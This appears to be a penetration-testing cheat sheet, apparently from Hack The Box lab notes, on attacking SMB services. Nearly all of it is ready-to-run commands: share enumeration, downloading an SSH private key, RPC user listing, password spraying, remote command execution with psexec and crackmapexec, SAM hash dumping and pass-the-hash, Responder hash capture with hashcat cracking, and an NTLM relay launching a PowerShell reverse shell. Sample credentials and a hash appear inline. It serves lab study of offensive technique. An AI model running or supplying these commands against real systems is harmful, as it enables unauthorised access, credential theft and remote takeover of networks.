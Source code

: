 ```yaml
---
edit:
tools:['smbmap', 'rpcclient']
---
```


# SMB

## File Share enumeration

```bash
# Listing
smbclient -N -L //$htb

# Listing with perms
smbmap -H $htb
smbmap -H $htb -r GGJ

# Download | upload a file
smbmap -H $htb --download "GGJ\id_rsa"
smbmap -u jason -p '34c8zuNBo91!@28Bszh' -H 10.129.203.6 --download "GGJ\id_rsa"
smbmap -H $htb --upload test.txt "GGJ\test.txt"

# rpcclient
rpcclient -U'%' 10.129.203.6
rpcclient $> enumdomusers
user:[jason] rid:[0x3e8]
user:[robin] rid:[0x3e9]

# enum4linux
./enum4linux-ng.py 10.10.11.45 -A -C
```

## Password attacks

```bash
# Spray with crackmapexec
crackmapexec smb 10.129.203.6 -u users.list -p pws.list --local-auth
```

## Exec

```bash
# Impacket - smbexec or atexec
impacket-psexec administrator:'liverpool'@10.129.203.6

# Crackmap
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

# Enumerate users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

# Extract hashes & PtH
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

## Forced Authentication

### Capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)

If all name resolutions will fail because the name does not exist, and the  machine will send a multicast query to all devices on the network,  including a fake SMB server. 

```bash
# Start responder - logs --> /usr/share/responder/logs/
sudo responder -I <interface name>

# Crack NTLMv2
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

### Hash relay

PowerShell reverse shell using https://www.revshells.com/, Powershell #3 (Base64).

```bash
# Turn off smb in responder
cat /etc/responder/Responder.conf | grep 'SMB ='
SMB = Off

# Execute reverse shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e'
```

## Vulns

- SMB v3.1.1: [SMBGhost](https://arista.my.site.com/AristaCommunity/s/article/SMBGhost-Wormable-Vulnerability-Analysis-CVE-2020-0796) with the [CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796).
- 
